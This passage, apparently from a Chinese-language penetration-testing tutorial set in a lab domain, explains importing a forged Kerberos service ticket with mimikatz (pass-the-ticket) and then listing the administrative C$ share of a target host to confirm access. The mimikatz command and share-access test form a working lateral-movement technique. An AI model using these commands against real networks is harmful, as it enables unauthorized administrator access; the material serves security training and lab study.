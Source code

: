 ### 3.2.5. 导入票据

使用mimikatz注入此票据，你可以看那个名称最长就是那个票据，再次之前你可以测试一下，正常情况下是无法访问的，当然你如果使用高权限的话，可能会成功，是由于内存中存在其它票据，而为了实验的严谨，可以使用低权限的账户shell，来导入，在导入前可以进行测试，最好是直接清除票据后，再进行导入。

```
mimikatz kerberos::ptt TGS_Administrator@0day.org@0DAY.ORG_cifs~OWA2010SP3.0day.org@0DAY.ORG.kirbi

shell dir \\OWA2010SP3\c$
```

![image-20230801175117459](assets/image-20230801175117459-172995737576617.png)

